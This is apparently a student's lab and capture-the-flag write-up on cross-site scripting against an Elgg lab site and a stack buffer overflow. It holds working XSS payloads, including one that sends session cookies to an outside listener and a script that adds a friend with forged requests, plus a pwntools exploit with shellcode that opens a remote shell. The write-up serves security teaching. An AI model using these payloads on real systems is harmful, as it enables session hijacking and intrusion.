 # Cross-Site Scripting (XSS) Attack Lab

## Task 1
To do the first task we just need to login as Samy and edit his brief description field to:

```HTML
<script>alert(’XSS’);</script>
```

![task1](pictures/logbook10/task1-1.png)

Now whenever we access Samy's profile, an alert box will be shown as we can see in the following screenshot:

![task1-result](pictures/logbook10/task1-2.png)

## Task 2
For the second task, we will edit the previous field to:

```HTML
<script>alert(document.cookie);</script>
```

![task2](pictures/logbook10/task2-1.png)

Now whenever we access Samy's profile, an alert box will be shown with the session cokie information as we can see in the following screenshot:

![task2-result](pictures/logbook10/task2-2.png)

## Task 3

For the third task, we will edit the previous field to:

```HTML
<script>document.write(’<img src=http://10.9.0.1:5555?c=’
+ escape(document.cookie) + ’ >’);
</script>
```

![task3](pictures/logbook10/task3-1.png)

This will allow us (as an attacker) to get access to cokies informations. To capture this information we will need to input the following into a terminal:

```bash
$ nc -lknv 5555
```

Now whenever we access Samy's profile, we will get access to the information we want in the terminal, as we can see in the following screenshot:

![task3-result](pictures/logbook10/task3-2.png)

## Task 4
For the fourth task, we will edit Samy's About Me field to (we need to ensure that we are in the Text mode while editing this field):

```HTML
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; ➀
var token="&__elgg_token="+elgg.security.token.__elgg_token; ➁
//Construct the HTTP request to add Samy as a friend.
var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + token + ts; //FILL IN
//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}
</script>
```

![task4](pictures/logbook10/task4-1.png)

Note that "59" is Samy's user ID.

Now whenever we access Samy's profile, we will add Samy as friend without even noticing it. When we refresh his profile we will see the following result:

![task4-result](pictures/logbook10/task4-2.png)

Question 1:
The lines ``1`` and ``2`` are used to get the values of the ``__elgg_ts`` and ``__elgg_token``. These parameters are used as a security measure against Cross Site Request Forgery (CSRF) attacks, which can’t be used to access the values. Every time the page is loaded they change and therefore need to be accessed by the Cross Site Scripting attack dynamically in order to get the correct values. This is the reason why these lines are needed.

Question 2:
No, we can't launch a successful attack if the Elgg application only provides the Editor mode for the “About me” field. This happens because the Editor mode adds extra HTML and changes some of the symbols.

# CTF

## Challenge 1

Starting by analysing the platform, we can see that there's an input field which might become our "door" to inject a script so that the administrator gives us the password. 

After a first simple test with

```html
<script>alert('test');</script>
```

we confirm that the script is running on the page loading.

Then, all we need to do is to inspect the page with the buttons and look for the characteristics of the elements, as we can see in the next screenshot:

![ctf-part1-html](pictures/logbook10/ctf-part1-html.png)

By inpecting the code, we now know that the form that contains the button the administrator always clicks on has an action to mark it as read, while the button that raises the flag doesn't have an action associated. 

This way, the simplest way to get the flag is to change the "Mark as read" button form's action to be empty. To do so, since there's no id neither a class defined for the form itself, we can just access the button element by its id ('markAsRead') and then access the parent element of his parent element, changing the action as follows:

```javascript
document.getElementById('markAsRead').parentElement.parentElement.action=""
```

To get the flag, we then type as input the following:

![ctf-part1-script](pictures/logbook10/ctf-part1-script.png)

And wait for the flag to appear, as shown in the next screenshot:

![ctf-part1-flag](pictures/logbook10/ctf-part1-flag.png)

## Challenge 2

Starting by running the ```checksec program```, we get the following output:

![ctf-part2-checksec](pictures/logbook10/ctf-part2-checksec.png)

By analysing the output, we get to know the following:

- The architecture used is x86 (Arch)
- There's no RELRO, which means the program cannot prevent GOT (Global Offset Table) overwrite attacks (RELRO)
- There's no cannary protecting the return address (Stack)
- The stack has execution permission (NX)
- The binnary positions are randomized (PIE)
- There are memory spaces with reading, writting and execution permissions (RWX) - in this case, the stack itself

After this, we can proceed with the analysis of the code and we can see that the line

```c
gets(buffer);
```

has a buffer overflow vulnerability that can be exploited using the following Python script:

```python
#!/usr/bin/python3
from pwn import *

def my_func(ret, r):     
    shellcode= (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
    ).encode('latin-1')

    content = bytearray(0x90 for i in range(500)) 

    start = 300 
    content[start:start + len(shellcode)] = shellcode

    ret = ret - 108 + start 
    offset = 108 

    L = 4
    content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 

    r.sendline(bytes(content))
    r.interactive()
```

To explain this Python script, here's what it's doing:

- It's inserting the shellcode to access the shell
- The 108 offset was calculated using ``gdb``, using the following sequence of instructions
  - ``br 9`` (breakpoint on line 9)
  - ``run``
  - ``info frame``
  - ``p &buffer`` (out_1)
  - ``p $ebp`` (out_2)
  - ``>> <out_2> - <out_1> + 4`` (plus 4 because the size of each element in the stack is 4 and the return pointer is located right above the ebp)

Using the Python interactive mode inside the VM, with the following sequence of instructions:

```python
>> from exploit_example import *
>> r = remote('10.227.243.188', 4001)
<< [x] Opening connection to 10.227.243.188 on port 4001
<< [x] Opening connection to 10.227.243.188 on port 4001: Trying 10.227.243.188
<< [+] Opening connection to 10.227.243.188 on port 4001: Done
>> r.recvuntil(b"input:")
<< b'Try to control this program.\nYour buffer is 0xffbfb5a0.\nGive me your input:'
>> my_func(0xffbfb5a0,r)
```

where ``exploit_example`` is the name of the above Python script and ``0xffbfb5a0`` the ``buffer`` address obtained from the output of the program (different on each running of the program).

With this, we get access to the shell, and then we can get the flag by inserting the following console lines:

```console
cat flag.txt
```

![ctf-part2-flag](pictures/logbook10/ctf-part2-flag.png)